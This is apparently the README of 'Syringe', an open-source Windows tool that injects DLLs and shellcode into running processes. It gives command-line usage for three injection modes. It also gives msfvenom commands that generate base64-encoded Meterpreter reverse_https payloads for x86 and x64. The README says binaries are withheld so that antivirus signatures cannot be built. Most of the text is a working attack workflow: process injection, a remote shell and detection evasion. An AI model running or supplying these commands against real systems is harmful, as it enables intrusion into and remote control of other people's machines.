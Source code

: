 # Syringe

Syringe is a general purpose DLL and code injection utility for 32 and 64-bit
Windows. It is capable of executing raw shellcode as well as injecting
shellcode or a DLL directly into running processes.

## Compilation

Syringe is distributed in source code form only.  Compiled binary files are not available.  This was a conscious decision in order to prevent AV signatures from being developed.  As such, users will have to compile Syringe locally.  Syringe is meant to be compiled in Visual Studio 2013, other versions of VS, and other IDEs are not supported.  Syringe can be compiled by loading the provided project file (syringe.sln) with VS, specifying the desired architecture, and building.

## Usage

Syringe supports three options for injection (specified with "-1", "-2", or "-3").  The following examples assume the x86 version.

* DLL injection.
  * Using the "-1" option, Syringe can inject an arbitrary DLL into a process specified by a process ID.
  * Usage: `syringe.x86.exe -1 <DLL file> <PID>`
* Shellcode Injection
  * Using the "-2" option, Syringe can inject specifically formatted shellcode into a specified process.
  * Usage: `syringe.x86.exe -2 <shellcode> <PID>`
* Shellcode Injection Alternative
  * Using the "-3" option, Syringe can inject specifically formatted shellcode into itself (no PID necessary).
  * Usage: `syringe.x86.exe -3 <shellcode>`

For information on how to format shellcode for use with Syringe, see the following section.

## Formatting Shellcode

Syringe requires shellcode to be supplied in a base64 encoded format.  The following commands can be used on most \*nix systems (with [Metasploit](https://github.com/rapid7/metasploit-framework) installed) to generate the shellcode appropriately.  **Be sure to change the "LHOST", "LPORT" and "-p" options accordingly.**

* x86 shellcode
  * `sudo msfvenom -p windows/meterpreter/reverse_https -t raw LHOST=127.0.0.1 LPORT=443 ExitFunc=thread | base64 | awk 1 ORS=''`
* x64 shellcode
  * `sudo msfvenom -p windows/x64/meterpreter/reverse_https -t raw LHOST=127.0.0.1 LPORT=443 ExitFunc=thread | base64 | awk 1 ORS=''`

### License
Syringe is released under the GPL v3 license, for more details see
the [LICENSE](https://github.com/securestate/syringe/blob/master/LICENSE) file.
